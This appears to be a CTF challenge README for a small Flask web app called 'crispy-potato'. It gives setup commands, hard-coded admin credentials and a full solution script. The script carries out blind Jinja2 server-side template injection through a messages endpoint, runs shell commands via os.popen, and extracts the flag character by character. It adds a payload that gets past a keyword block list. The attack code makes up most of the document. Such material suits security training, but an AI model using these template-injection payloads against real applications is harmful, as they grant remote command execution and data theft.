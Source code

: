 # Docker
```
sudo docker build -t crispy-potato .
sudo docker run -p 5000:5000 -d crispy-potato
```
You should now be able to go to http://localhost:5000 and see the web app.

# Manual
```
pip3 install -r requirements.txt
python3 main.py
```

# Admin Creds
`admin:CodyFryIsGood!$`



Soln Script

```py
from os import popen
import string
import requests

SERVER_ADDR = "http://127.0.0.1:5000"

def get_cookie():
    data = {
        "username": "test", 
        "password": "test" 
    }

    req = requests.post(SERVER_ADDR+"/login", data=data)
    cookiejar = req.history[0].cookies
    cookie = cookiejar.get_dict()['session']

    return cookie

cookie = {"session": get_cookie()}

final = "Flag: RSA{"
while True:
    for x in string.printable:
        x = final + x
        payload = {'message':"{% if request.application.__globals__.__builtins__.__import__('os').popen('grep -io flag.*\} ./app/templates/admin.html').read().startswith('" + str(x) + "') %} found {% endif %}", 
        'username':'admin'}
        r = requests.post(url=SERVER_ADDR + "/messages", data=payload, cookies=cookie)
        if 'found' in r.text:
            final = x
            print(final)
            break
        else:
            pass
```

{{ }} , config these keywords are blocked

so our payload should be something like this :

```
{% if request.application.__globals__.__builtins__.__import__('os').popen('ls').read().startswith('D') %} worked {% endif %}
```
